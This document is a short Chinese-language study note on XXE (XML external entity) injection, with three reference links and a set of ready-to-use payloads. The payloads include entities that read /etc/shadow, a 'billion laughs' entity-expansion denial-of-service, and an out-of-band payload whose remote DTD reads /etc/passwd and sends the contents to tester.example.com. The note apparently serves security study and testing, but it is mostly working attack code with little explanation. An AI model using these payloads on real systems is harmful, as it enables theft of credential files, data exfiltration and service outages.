 # XXE漏洞的学习：

1. [XXE漏洞的学习与利用总结](https://www.cnblogs.com/r00tuser/p/7255939.html)
2. [XXE漏洞利用技巧：从XML到远程代码执行](https://www.freebuf.com/articles/web/177979.html)
3. [XXE: XML eXternal Entity Injection vulnerabilities](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)

基础Payload：

```
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file">
%pe;
%param1;
]>
<foo>&external;</foo>




The contents of xxe_file should be:
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>">
```
